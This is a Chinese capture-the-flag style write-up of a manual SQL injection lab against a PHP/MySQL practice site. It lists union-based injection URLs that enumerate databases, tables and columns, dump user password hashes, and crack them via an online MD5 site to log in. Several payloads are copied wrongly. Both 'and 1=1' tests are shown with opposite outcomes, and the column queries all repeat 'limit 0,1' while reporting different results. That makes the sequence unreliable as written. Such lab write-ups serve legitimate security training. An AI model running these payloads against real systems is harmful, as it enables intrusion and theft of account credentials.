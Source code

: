 # SQL 手工注入漏洞测试（MySQL数据库）

> **题目信息：**
> **背景介绍**
> 安全工程师"墨者"最近在练习SQL手工注入漏洞，自己刚搭建好一个靶场环境Nginx+PHP+MySQL，PHP代码对客户端提交的参数未做任何过滤。尽情的练习SQL手工注入吧
> **实训目标**
> 1.掌握SQL注入原理；
> 2.了解手工注入的方法；
> 3.了解MySQL的数据结构；
> 4.了解字符串的MD5加解密
> **解题方向**
> 手工进行SQL注入测试，获取管理密码登录。

# 一、进入靶场
本题要求为**SQL注入**，那么我们就先去寻找注入点而不是直接爆破用户名和密码。
![靶场](https://pic.try-hard.cn/blog/20200507211537307.png)

# 二、在公告处发现注入点
![发现注入点](https://pic.try-hard.cn/blog/20200507211957381.png)
# 三、确定注入格式
1. http://219.153.49.228:41317/new_list.php?id=1 and 1=1 >> **不报错，未过滤关键字**
2. http://219.153.49.228:41317/new_list.php?id=1 and 1=1 >> **报错，发现注入点**
# 四、确定字段数
1. `http://219.153.49.228:41317/new_list.php?id=1order by 1` >> **不报错**
2. `http://219.153.49.228:41317/new_list.php?id=1order by 2` >> **不报错**
3. `http://219.153.49.228:41317/new_list.php?id=1order by 3` >> **不报错**
4. `http://219.153.49.228:41317/new_list.php?id=1order by 4` >> **不报错**
5. `http://219.153.49.228:41317/new_list.php?id=1order by 5` >> **报错**

**确定字段数为4**
# 五、确定显示字段
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,2,3,4`
![确定](https://pic.try-hard.cn/blog/20200507213250756.png)
**确定显示字段为2和3。**
# 六、查询数据库名字和版本
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,database(),version(),4`
![在这里插入图片描述](https://pic.try-hard.cn/blog/20200507214804213.png)
**确定数据库名字为 *mozhe_Discuz_StormGroup* ，数据库版本为 *5.7.22-0ubuntu0.16.04.1* 。**
# 七、查询其它数据库名称
1. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 0,1` >> **information_schema**
2. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1` >> **mozhe_Discuz_StormGroup**
3. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 2,1` >> **mysql**
4. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 3,1` >> **performance_schema**
5. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 4,1` >> **sys**
# 八、查询数据库表名
1. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup' limit 0,1`>>**StormGroup_member**
2. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup' limit 1,1`>>**notice**
**根据表名我们可以发现，*StormGroup_member*这张表放的是用户信息，*notice*这张表中放的是公告信息**
# 九、查询表中字段名
1. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**id, int(11)**
2. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**name, varchar(20)**
3. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**password, varchar(255)**
4. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**status, int(11)**
# 十、查询用户信息
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,concat(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 0,1`>>**mozhe-356f589a7df439f6f744ff19bb8092c0-0**
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,concat(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 1,1`>>**mozhe-e2391899875e16f7013173cd17524303-1**
**查询出了两条记录，发现密码长度都为32位，猜测应该是md5加密的，将密码放进[解密网站](https://www.cmd5.com/)进行解密，使用用户名和密码登陆网站**
# 十一、登陆成功

**下方就是我们需要提交的key了**![在这里插入图片描述](https://pic.try-hard.cn/blog/20200507223622466.png)